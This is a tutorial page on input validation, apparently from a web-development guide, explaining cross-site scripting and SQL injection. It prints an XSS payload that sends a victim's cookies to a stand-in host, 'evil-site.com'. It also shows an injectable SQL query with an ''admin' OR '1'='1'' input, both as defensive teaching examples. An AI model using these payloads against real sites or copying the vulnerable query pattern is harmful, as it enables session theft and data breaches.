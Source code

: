 ```yaml
---
layout: default
title: Input Validation and Security
nav_order: 4
parent: Request Handling
---
```


# Input Validation and Security

[&laquo; Return to Request Handling Chapter](index.md)

## Introduction to Input Validation

When users submit data through forms or API requests, you can never trust that data completely. Malicious users might try to exploit your application by sending harmful data. Input validation and sanitization are essential security practices that protect your application from various attacks.

## Common Security Threats

### 1. Cross-Site Scripting (XSS)

XSS attacks occur when malicious scripts are injected into your application through user input. These scripts can:
- Steal user session cookies
- Redirect users to malicious sites
- Modify page content
- Access sensitive information

**Example of XSS attack:**
```html
<!-- Malicious input -->
<script>alert('XSS Attack!');</script>

<!-- Or more dangerous -->
<script>
    document.location = 'http://evil-site.com/steal?cookie=' + document.cookie;
</script>
```

### 2. SQL Injection

SQL injection occurs when malicious SQL code is inserted into input fields, potentially allowing attackers to:
- Access unauthorized data
- Modify or delete database records
- Execute administrative operations

**Example of SQL injection:**
```javascript
// Dangerous code
const query = `SELECT * FROM users WHERE username = '${username}' AND password = '${password}'`;

// If username = "admin' OR '1'='1"
// Query becomes: SELECT * FROM users WHERE username = 'admin' OR '1'='1' AND password = '...'
// This would return all users!
```
